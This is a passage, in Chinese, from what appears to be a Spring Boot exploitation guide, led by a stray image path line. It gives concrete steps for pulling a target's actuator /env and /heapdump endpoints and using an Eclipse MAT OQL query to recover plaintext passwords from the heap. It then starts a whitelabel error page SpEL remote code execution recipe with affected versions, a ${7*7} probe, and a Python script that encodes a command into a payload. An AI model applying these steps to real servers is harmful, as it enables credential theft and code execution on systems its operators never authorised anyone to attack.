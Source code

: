 

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 下载 jvm heap 信息

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

`GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息



##### 步骤三： 使用 MAT 获得 jvm heap 中的密码明文

参考 [文章](https://landgrey.me/blog/16/) 方法，使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 OQL 语句 `select * from org.springframework.web.context.support.StandardServletEnvironment`， 辅助快速过滤分析，获得密码明文



## 二：远程代码执行

> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准



### 0x01：whitelabel error page SpEL RCE

#### 利用条件：

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名



#### 利用方法：

##### 步骤一：找到一个正常传参处

比如发现访问  `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。



##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```
